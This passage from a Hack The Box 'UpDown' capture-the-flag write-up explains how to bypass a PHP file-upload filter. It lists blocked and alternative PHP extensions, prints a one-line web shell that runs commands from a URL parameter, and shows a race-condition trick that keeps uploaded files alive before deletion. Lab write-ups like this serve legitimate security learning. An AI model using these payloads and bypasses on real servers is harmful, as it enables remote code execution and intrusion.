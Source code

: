 
### Step 2
We know from the source code (`checker.php`) that following extensions is blocked: `php|php[0-9]|html|py|pl|phtml|zip|rar|gz|gzip|tar`.
We also have to adapt to the max file size of 10kb: `$_FILES['file']['size'] > 10000`
Lastly, the following wrappers are also blocked: `!preg_match("#file://#i",$site) && !preg_match("#data://#i",$site) && !preg_match("#ftp://#i",$site`

Reading about [file upload](https://book.hacktricks.xyz/pentesting-web/file-upload) on HackTricks these are listed as usefull extensions for PHP:
`.php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc`

Playing around and testing to upload stuff I am able to upload this file:
```bash
➜  updown cat shell.pht
<?php echo "Shell";system($_GET['cmd']); ?>
```

However when looking in the uploads directory (`http://dev.siteisup.htb/uploads/`) a directory is created but no file is in the dir..
Going back to the code, this probably have something to do with below line from `checker.php`, that's invoked after reading the uploaded file.
```bash
  # Delete the uploaded file.
	@unlink($final_path);
```

After a lot of playing around I noticed that when uploading a file, simply add some URL in the end of your code so the server will spend time to check if it's up or not. This will keep the file alive long enough for us to see the content.

```bash
➜  updown cat shell.phar 
<?php phpinfo(); ?>
https://exploit.se
https://exploit.se
```

![](/assets/images/htb-writeup-updown/updown05.png)